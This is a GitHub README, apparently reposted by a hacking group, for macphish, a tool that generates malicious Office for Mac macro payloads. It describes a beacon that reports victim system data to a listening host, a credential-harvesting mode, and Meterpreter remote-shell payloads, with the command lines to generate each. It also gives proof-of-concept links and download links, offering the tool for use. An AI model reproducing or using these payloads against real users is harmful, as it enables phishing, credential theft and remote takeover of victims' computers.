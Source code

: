 # macphish
Office for Mac Macro Payload Generator
![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* creds
* meterpreter
* meterpreter-grant

For the 'creds' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### creds
```
$./macphish.py -lh <listening host> -lp <listening port> -a creds
```
### meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter 
```
### meterpreter-grant
The generate a meterpreter payload that calls GrantAccessToMultipleFiles() first:
```
$./macphish.py -lh <listening host> -lp <listening port> -p <payload> -a meterpreter-grant
```

For meterpreter attacks, only python payloads are supported at the moment. 

## Usage
See https://github.com/cldrn/macphish/wiki/Usage

## PoCs
* <https://drive.google.com/open?id=0BzPR8exG0kt6TlY1UWhiemVKRnc>
* <https://drive.google.com/open?id=0BzPR8exG0kt6WWUzU0tKUjFhdjg>
* <https://drive.google.com/open?id=0BzPR8exG0kt6VzlaWVVJdEtNR0k>
* <https://drive.google.com/open?id=0BzPR8exG0kt6SnJwM01KSzAzMjA>

## Download and Clone
> Download: [https://github.com/The404Hacking/MacPhish/archive/master.zip](https://github.com/The404Hacking/MacPhish/archive/master.zip)

> Clone: git clone [https://github.com/The404Hacking/MacPhish](https://github.com/The404Hacking/MacPhish.git)

## The404Hacking | Digital UnderGround Team
[The404Hacking](https://T.me/The404Hacking)

## Follow us !
[The404Hacking](https://T.me/The404Hacking) - [The404Cracking](https://T.me/The404Cracking)

[Instagram](https://instagram.com/The404Hacking) - [GitHub](https://github.com/The404Hacking)

[YouTube](http://yon.ir/youtube404) - [Aparat](http://www.aparat.com/The404Hacking)

[The404Hacking.BlogSky.Com](http://the404hacking.blogsky.com)
